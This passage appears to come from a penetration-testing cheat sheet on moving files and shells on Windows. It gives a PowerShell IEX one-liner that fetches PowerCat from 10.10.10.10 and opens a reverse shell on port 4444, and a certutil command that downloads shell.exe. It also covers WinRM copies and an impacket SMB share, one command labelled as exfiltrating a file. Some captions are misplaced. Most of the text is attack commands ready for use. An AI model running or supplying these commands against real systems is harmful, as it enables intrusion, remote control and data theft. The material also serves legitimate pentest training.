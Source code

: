 - *download reverse shell and execute it*

<br>

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/PowerCat.ps1');
powercat -c 10.10.10.10 -p 4444 -e powershell"
```

- *Download powercat and open shell*

#### cmd

---

```plaintext
certutil.exe -urlcache -f http://10.10.10.10:Port/shell.exe bad.exe
```

#### WinRM / Powershell Remote

---

```bash
$Session = New-PSSession -ComputerName DATABASE01

#to our target
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\

#to our client
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

#### Via SMB

---

```bash
sudo impacket-smbserver [SHARE_NAME] [PATH_TO_SHARE]
```

- *With `impacket-smbserver`:*
  ```bash
  sudo impacket-smbserver share .
  ```
- *E.g. to server current directory:*
  ```bash
  copy \\[IP]\share\file
  ```
- *To copy from the share to a Windows client:*
  ```bash
  copy [FILE] \\[IP]\share
  ```
- *To copy to the share (i.e. exfiltrate a file):*

#### Powershell Simple HTTP-Server *File-Download*

---